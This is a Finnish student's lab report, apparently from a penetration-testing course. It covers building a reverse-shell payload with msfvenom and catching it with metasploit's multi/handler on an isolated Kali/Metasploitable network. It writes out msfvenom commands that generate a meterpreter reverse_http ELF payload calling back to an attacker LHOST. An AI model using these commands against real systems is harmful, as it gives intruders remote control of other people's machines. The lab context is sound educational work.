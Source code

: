   ```

![image](https://github.com/user-attachments/assets/3ded879e-a155-46f2-809f-8524566d3a2f)

- Mutta nähtävästi tuon purku on äärimmäisen pitkäveteistä ja haastavaa. En edes uskalla arvata, kauanko siinä lopulta olisi mennyt. Yhdessä kohtaa eri salasanalla käytiin todella lähellä.

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

    Haittaohjelma ei saa olla automaattisesti leviävä. Msfvenom tekee tyypillisillä asetuksilla ohjelman, joka avaa reverse shellin, kun sen ajaa, mutta joka ei leviä eikä tee muutenkaan mitään itsestään.
    Raporttiin riittävät pelkät komennot ja raportti haitakkeen tekemisestä, itse binääriä ei ole pakko laittaa verkkoon. Mikäli laitat binäärin verkkoon, pakkaa se salakirjoitettuun zip-pakettiin ja laita salasanaksi       "infected". Latauslinkin yhteydessä on oltava selkeä varoitus siitä, että kyseessä on haittaohjelma (malware), jota ei tule ajaa tuotantokoneilla. Salasanan voit halutessasi kertoa varoitusten yhteydessä.
    Palvelimen päässä pitää olla reikä tulimuurissa. Reverse shell tarkoittaa, että palvelin on hyökkäyskoneella.

- Koska työskentelen nyt eri virtuaalikoneella, pitää taas laittaa niiden välinen verkko kuntoon

![image](https://github.com/user-attachments/assets/c8f7cf10-5634-4516-92f4-f83b756e96dd)

Pitää vetää Kalista kaapeli irti, jotta mikään ei vahingossakaan leviä verkkoon. 

![image](https://github.com/user-attachments/assets/03cdd2c2-8e1f-4d89-b47c-f98a9f20678f)

Hetki meni säätäessä, sillä koneet ei saaneet yhteyttä toisiinsa - Korjasin sen käymällä laittamassa Oraclessa network - asetukset kuntoon ja DHCP päälle.

![image](https://github.com/user-attachments/assets/931bd08a-78fb-4fd7-9f82-816602df957e)


Varmistetaan, ettei kummallakaan ole pääsyä ulkopuolelle ja se, että ne saavat toisiinsa yhteyden

![image](https://github.com/user-attachments/assets/2364049d-c387-4386-9ef1-03ce21500d82)

Oma ja Metasploitablen IP

![image](https://github.com/user-attachments/assets/e09db6d2-f70a-49ff-a7af-fb71a87872b9)

Tässä välissä lueskelin, katselin videoita ja yritin saada parempaa kuvaa siitä, mitä pitää tehdä.
Navigoin itseni /usr/bin, jossa msfvenom sijaitsee ja katselin aikani ```msfvenom -l payload``` - kohdasta linuxille sopivia payloadeja, jota tehtävässä kaivataan.

- Ilmeisesti tuo tcp olisi helpompi vaihtoehto - mutta kiinnostaa enemmän jostain syystä kokeilla tuota reverse_http. Mennään siis sillä

- Kokeilin [tämän](https://raxis.com/blog/cool-tools-series-msfvenom/) ohjeen mukaan suorittaa komennon ```msfvenom -p linux/x64/meterpreter_reverse_http LHOST=(omaip) LPORT=8080 (HTTP-PORTTI) -f exe > ~/Desktop/File.exe```
- Se herjaa, että vain elf - fileja voi luoda
- Eli vaihdoin sen ```sudo msfvenom -p linux/x64/meterpreter_reverse_http LHOST=(omaip) LPORT=8080 (HTTP-PORTTI) -f elf -o payload.elf```

![image](https://github.com/user-attachments/assets/05068cd6-8dff-4dd5-8af4-f54b4f717348)

Seurailin vähän [ohjetta](https://www.beyondtrust.com/blog/entry/how-to-use-metasploit-for-command-control) ja käynnistin ```msfconsole```

![image](https://github.com/user-attachments/assets/9965adfe-d957-46c3-a6a4-416266420ce1)

  ```